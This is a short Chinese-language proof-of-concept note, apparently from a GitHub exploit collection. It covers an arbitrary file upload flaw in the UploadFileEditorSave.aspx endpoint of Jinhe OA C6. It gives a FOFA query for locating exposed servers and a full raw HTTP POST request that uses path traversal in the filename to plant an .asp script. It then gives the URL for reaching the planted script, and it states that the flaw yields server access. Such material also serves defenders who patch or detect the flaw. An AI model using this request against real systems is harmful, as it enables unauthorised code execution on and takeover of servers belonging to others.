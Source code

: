 ## 金和OA_uploadfileeditorsave接口存在任意文件上传漏洞

金和-c6 uploadfileeditorsave 任意文件上传，攻击者可通过此漏洞获取服务器权限

## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /C6/Control/UploadFileEditorSave.aspx?filename=\....\....\C6\qps4cckjuz.asp HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Connection: close
Content-Length: 191
Content-Type: multipart/form-data; boundary=----9fh1lo9qobtszaiahg6v
Accept-Encoding: gzip, deflate

------9fh1lo9qobtszaiahg6v
Content-Disposition: form-data; name="file"; filename="qps4cckjuz.jpg"
Content-Type: image/png

<% response.write(111*111)
%>

------9fh1lo9qobtszaiahg6v--
```
![image](../../images/5bb65609-982b-4ebb-9242-3da526eee36b.png)

访问上传文件路径：
http://your_ip/C6/qps4cckjuz.asp
